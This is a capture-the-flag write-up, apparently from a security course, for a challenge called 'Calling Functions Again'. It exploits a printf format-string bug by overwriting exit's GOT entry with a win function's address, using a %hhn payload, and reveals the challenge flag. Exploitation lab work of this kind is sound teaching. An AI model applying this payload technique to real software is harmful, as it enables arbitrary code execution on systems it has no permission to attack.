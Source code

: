 # Challenge `Calling Functions Again` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to call functions

## Analyzing the server

The main function call a function which reads the user input to a buffer then exits the program.

## Exploit

By running `gdb` its possible to find the address of the `win` function. 
Using `objdump -R bin` will tells us the address of `exit@GOT`.
Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
and verifying that the 7th register is filled with `41` (the value of `A`) tell us that we control the 7th register.
To call the `win` function we need to overwrite the `exit@GOT` address with the address of the `win` function.
Like in previous challenges, we can write the address byte by byte using the `%hhn` specifier.
```
payload =  p32(exit_gop+2) + b'%007$hhn'                   # 8      
payload += p32(exit_gop+3) + b'%010$hhn'                   # 16
payload += p32(exit_gop+1) + b'%000120c' + b'%013$hhn'     # 155
payload += p32(exit_gop+0) + b'%000019c' + b'%018$hhn'     # 132
```
Revealing the flag `SSof{You_G_O_T_me}`.

## Implementation

Full implementation can be found [here](calling-functions-again.py).
